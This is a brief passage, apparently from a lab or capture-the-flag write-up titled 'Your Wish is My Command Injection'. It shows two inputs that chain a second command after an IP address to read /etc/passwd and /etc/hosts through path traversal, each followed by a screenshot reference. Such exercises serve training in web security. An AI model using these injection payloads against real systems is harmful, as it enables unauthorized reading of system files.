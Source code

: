 Web Application 1: Your Wish is My Command Injection


           Run: 8.8.8.8 && cat ../../../../../etc/passwd

![pic](passwd.png)


        Run: 8.8.8.8 && cat ../../../../../etc/hosts

![pic](hosts.png)